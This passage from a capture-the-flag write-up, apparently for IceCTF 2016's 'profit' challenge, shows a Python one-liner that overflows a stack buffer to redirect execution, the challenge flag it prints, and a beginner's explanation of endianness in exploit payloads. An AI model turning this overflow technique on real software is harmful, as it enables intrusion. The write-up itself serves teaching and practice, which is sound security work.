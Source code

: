 
```zsh
[ctf-xxxx@icectf-shell-2016 /home/profit]$ python -c "print 'A'*76+'\x0b\x85\x04\x08'" | ./profit 
Smashing the stack for fun and...?
IceCTF{who_would_have_thunk?}
[1]    31285 done                python -c "print 'A'*76+'\x0b\x85\x04\x08'" | 
       31286 segmentation fault  ./profit
[ctf-xxxx@icectf-shell-2016 /home/profit]$ 
```

There it is! The flag is `IceCTF{who_would_have_thunk?}`.

# On Endianness:
While this is pretty obvious to many people in the CTF, I wanted to write a quick blurb about how endianness works for any new folks that
decide to read this. On x86 architectures the CPU reads bytes in what is called *little endian*. *Endianness* refers to the order in which
the specific architecture is reading the bytes and should be either *big endian*, *little endian*, or *bi-endian*. 

### Big Endian:
In *big endian* the bytes are read in the order you might read them. For example lets take the 4-byte address `0xaabbccdd`. Naturally you as
a human will read that from left to right, what you might consider *in order* as `aa` then `bb` then `cc` then `dd`. This is how a big endian
architecture will read them as well. So in a python injection that would look like `python -c "print '\xaa\xbb\xcc\xdd'" | ./<victim program>`

### Little Endian:
In little endian they are read in *reverse order*. This doesn't mean that in `0xabcdef12` you end up with `0xbadcfe21` but rather that you go
from right to left, keeping the bytes in order. Remember that in hex each **_two_** digits represents a single byte, so `aa` is a byte, `bb` 
is another byte, and so on. So going back to using `0xaabbccdd` as our example address in little endian you read it byte by byte from *right
to left*. That means in a python injection it would look like `python -c "print '\xdd\xcc\xbb\xaa'" | ./<victim program>`

### Bi Endian:
The architecture can support little endian *and* big endian so you'll have to do a little bit of testing to figure it out for yourself. I'm
not totally sure how it is decided here and haven't had to deal with it yet.
